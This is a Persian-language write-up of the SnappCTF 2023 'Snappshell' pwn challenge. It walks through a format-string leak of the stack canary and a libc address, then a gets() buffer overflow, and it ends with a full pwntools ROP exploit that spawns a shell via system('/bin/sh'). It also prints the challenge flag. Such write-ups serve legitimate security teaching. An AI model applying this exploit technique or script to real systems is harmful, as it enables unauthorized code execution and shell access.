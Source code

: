 ```yaml
---
tags:
  - SnappCTF
  - SnappCTF-2023
  - PWN
  - Exploit
  - Shell
  - ROP
  - Pwntools
  - Canary
  - BufferOverflow
---
```

# Snappshell

<center>
![challenge](Snappshell-1.png)
</center>

در این چالش با یک فایل فشرده رو به رو هستیم که شامل یک فایل باینری و یک Dockerfile هست.
در ابتدا از طریق دستور checksec با چنین تصویر ترسناکی رو به رو میشیم! :) 

<center>
![Snappshell-2.png](Snappshell-2.png)
</center>

بعد از اینکه فایل باینری رو با gdb و ghidra بررسی میکنیم متوجه میشیم که هیچ تابعی برای [ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win) کردن وجود نداره و همچنین فعال بودن [NX](https://en.wikipedia.org/wiki/NX_bit) متوجه میشیم که نیاز به شل گرفتن از برنامه هست ولی خب چطوری باید این کارو کرد؟!
برای اینکه به این هدفمون دست پیدا کنیم نیازه تا از تکنیک [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) برای دور زدن NX استفاده کنیم.
یکی از موانع سر راه همونطوری که توی عکس بالا هم پیداست فعال بودن یک مکانیسم امنیتی دیگه به اسم [Stack Canary](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/) هست.
برای اینکه یک قدم رو به جلو حرکت کنیم اول سعی میکنیم تا Canary رو دور بزنیم.
بعد از اینکه توابع به کار رفته توی برنامه رو دقیق تر با ghidra بررسی میکنیم چشممون به تابع printf ای میوفته (توی تابع echo برنامه، هایلاتش کردم توی تصویر زیر) که آسیب پذیری [Format String](https://www.geeksforgeeks.org/format-string-vulnerability-and-prevention-with-example/) رو داره و احتمالا میتونیم از این طریق به مقدار cookie و... که توی استک موجود هستن دست پیدا کنیم.

<center>
![Snappshell-3.png](Snappshell-3.png)
</center>

بعد از کلی سر و کله زدن با این آسیب پذیری (و یا خودکار کردن روندش با یک کد پایتون ساده) به ی همچین ساختاری میرسیم.

`%31$p`

با فرستادن یک همچین استرینگی به سمت تابع echo برنامه ، خیلی راحت مقدار cookie رو به دست میاریم.

<center>
![Snappshell-4.png](Snappshell-4.png)
</center>

بعد از اینکه canary رو اوکی کردیم میریم سراغ قسمت سخت ماجرا یعنی پیدا کردن gadget های مناسب و استفاده ازشون برای ساخت زنجیره ROP امون و اینکه چطوری میشه این زنجیره رو به خورد برنامه داد. 

جواب ما توی تابع find_index هست. توی این تابع با یک gets رو به رو هستیم و به صورت دیفالت وقتی این تابع رو میبینیم باید یاد آسیب پذیری [BufferOverflow](https://ctf101.org/binary-exploitation/buffer-overflow/) بیوفتیم.

<center>
![Snappshell-5.png](Snappshell-5.png)
</center>


برای این قسمت که باید بدونین به چه gadget هایی نیاز دارید و دستتون بیاد حدودا که چطوری باید ROP رو اوکی کنید (و یکمم خودتون تلاش کنین) ارجاعتون میدم به لینک های زیر:  
[Bypassing Canary & PIE](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/bypassing-canary-and-pie)

[ROP - Leaking LIBC address](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address)

[ROP: bypass NX, ASLR, PIE and Canary](https://ironhackers.es/en/tutoriales/pwn-rop-bypass-nx-aslr-pie-y-canary/)

از جمله مواردی که نیاز میشه اینجا بهش توجه کنین این هست برای استفاده از gadget ها احتمالا نیازتون میشه که از libc  درستی استفاده کنید. واسه اینکار باید به اون Dockerfile دقت میکردید و بعد از وصل شدن به docker سعی میکردید تا libc اصلی رو کپی کنید روی سیستم خودتون. دستور زیر میتونه کار رو دربیاره :

`. docker cp 4fd9a29bfcdc:/usr/lib/x86_64-linux-gnu/libc.so.6 `

بعد از این شما libc رو دارید و تنها کافیه تا برای پیدا کردن pop و sh و ret و system  از ابزار ROPgadget و یکمم pwntools استفاده کنید.  یک نمونه رو هم میتونید توی تصویر زیر ببینید: 
<center>
![Snappshell-6.png](Snappshell-6.png)
</center>

در نهایت بعد از همه این قضایا به exploit زیر میرسیم :
```python
from pwn import *

def index(s):
    p.sendlineafter(b'4- exit\n', b"3")
    p.sendline(s)
    return p.readline().rstrip()

def echo(s):
    p.sendlineafter(b'4- exit\n', b"1")
    p.sendlineafter(b'Enter your input\n', s.encode())
    return p.readline().strip()

#p = remote('91.107.177.236', 3117)
p = process('./shell_patched')
libc = ELF('./libc.so.6', checksec = False)

libc_add = echo(f'%33$p')

canary = p64(int(echo(f'%31$p'), 16))

libc_add = p64(int(libc_add, 16))

libc_add = int.from_bytes(libc_add, byteorder = 'little')

libc.address = (libc_add - 0x1e40) - 0x0000000000028000

pop = libc.address + 0x000000000002a3e5

ret = libc.address + 0x0000000000029139

final_payload = b'A' * 19 + b'SNAPP' + canary + b'\x00' * 8 +  p64(pop) + p64(next(libc.search(b'/bin/sh\x00'))) + p64(ret) + p64(libc.sym[b'system'])

p.sendlineafter(b'4- exit\n', b"3")
p.sendline(final_payload)

p.interactive()
p.close()
```



??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{Sn4Pp_sH3ll_leT_m3_!!nn}`</div>

--- 

!!! نویسنده
    [nim0x2a](https://github.com/nim0x2a)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۰۶
	